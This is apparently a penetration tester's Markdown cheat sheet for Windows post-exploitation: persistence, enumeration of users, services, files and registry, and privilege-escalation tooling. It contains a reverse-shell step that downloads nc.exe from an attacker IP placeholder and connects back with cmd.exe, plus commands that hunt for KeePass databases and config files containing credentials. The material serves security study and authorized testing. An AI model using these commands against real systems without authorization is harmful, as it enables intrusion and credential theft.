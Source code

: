 # Methodology

**Note:** Commands that have equivalents for both CMD and PowerShell will be separated with `---`, with the CMD command first, followed by their PowerShell equivalents.

## Establish Peristence

```powershell
# Establish a working environment to drop files into
C:\ProgramData
C:\Users\Public
C:\Temp

# Upgrade the current shell
iwr -uri $OUR_IP/nc.exe -outfile nc.exe
rlwrap -crA nc -lvnp 9002 # On kali box
.\nc.exe $OUR_IP 9002 -e cmd.exe
powershell -ep bypass
```

## Enumeration

```powershell
# Check privileges
whoami /all

# Check local users/groups
net user --- Get-LocalUser
net user $USER
net localgroup --- Get-LocalGroup

# Check local group memberships
net localgroup $GROUP --- Get-LocalGroupMember $GROUP

# Gather system information
systeminfo              # Check "OS Name", "OS Version", "System Type"

# Gather network information
netstat -ano            # Look for new available ports
Get-Process -Id $PID    # Check the process associated with a PID
ipconfig /all           # Check "Physical Address", "DHCP Enabled", "IPv4 Address", "Default Gateway", and "DNS Servers"
route print             # Look for attack vectors to other systems or networks

# Check installed applications
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select DisplayName, DisplayVersion
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select DisplayName, DisplayVersion

# Check dotnet version
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name Version,Release -ErrorAction 0 | Where { $_.PSChildName -match '^(?!S)\p{L}'} | Select PSChildName, Version, Release

# Check running processes
Get-Process | Sort-Object Id
Get-Process | Select-Object Id, ProcessName, Path | Sort-Object Id

# Enumerate user directories
tree C:\Users /a /f
Get-ChildItem -Path C:\Users\$USER\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

# Check file permissions
icacls $TARGET /c

# Search for sensitive files
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue              # KeePass database files
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue    # my.ini is the configuration file for MySQL

# Check command history
Get-History
(Get-PSReadlineOption).HistorySavePath

# Check services
Get-CimInstance -ClassName win32_service | Select ProcessId, Name, State, PathName | Sort-Object ProcessId | Where-Object {$_.State -like 'Running'}
Get-CimInstance -ClassName win32_service | Sort-Object ProcessId
Get-CimInstance -ClassName win32_service | Where-Object {$_.Name -like '$SERVICE_NAME'}

# Manage services
Restart-Service $SERVICE_NAME
net stop $SERVICE_NAME --- Stop-Service $SERVICE_NAME
net start $SERVICE_NAME --- Start-Service $SERVICE_NAME

# Check path environment variable
$env:path

# Check scheduled tasks
schtasks /query /fo LIST /v > tasks.txt
dos2unix tasks.txt     # On kali
less tasks.txt         # On kali, search for tasks owned by privileged accounts. Check "TaskName", "Next Run Time", "Author", and "Task To Run"
```

## Tools

**Primary:**

1. [SharpUp](Tools/SharpUp.md)
2. [winPEAS](https://github.com/carlospolop/PEASS-ng/releases/)
3. [Seatbelt](Tools/Seatbelt.md)

**Backup:**

- [PowerUp](Tools/PowerUp.md)

### Misc

```powershell
# Check for defender
Get-MpPreference

# Stop processes
Get-Process $PROCESS_NAME | Stop-Process
Get-Process | Where-Object { $_.ProcessName -like '*$PROCESS_NAME*' } | Stop-Process

# Open explorer in the current directory
Invoke-Item .


# Check inbound/outbound firewall rules
netsh advfirewall firewall show rule name=all dir=in
netsh advfirewall firewall show rule name=all dir=out

# Check ARP table
arp -a

# Check environment variables
Get-ChildItem env:

# List permissions
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
Get-Acl Microsoft | Select-Object -ExpandProperty Owner

# Query registry key
reg query "HKLM\SOFTWARE\Key" /s
reg query "HKLM\SOFTWARE\Key" /v EncKey
```

**Notable Groups:**

```bash
Administrators             # Full control
Remote Desktop Users       # Remote access via RDP
Remote Management Users    # Remote access via WinRM
```

`icacls` permissions mask table (ACE = access control entry)

- `F` - Full access
- `M` - Modify access
- `RX` - Read and execute access
- `R` - Read-only access
- `W` - Write-only access

Inheritance rights ([MSDN](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls))

- `I` - Inherit. ACE inherited from the parent container
- `OI` - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
- `CI` - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
- `IO` - Inherit only. ACE inherited from the parent container, but does not apply to the object itself. Applies only to directories.
- `NP` - Do not propagate inherit. ACE inherited by containers and objects from the parent container, but does not propagate to nested containers. Applies only to directories.

**Role is `nt authority\local service` without `SeImpersonatePrivilege` present:**

Commonly the role for a web server running on a windows computer (such as `xampp`)

[FullPowers](https://github.com/itm4n/FullPowers)

```powershell
.\FullPowers.exe
```
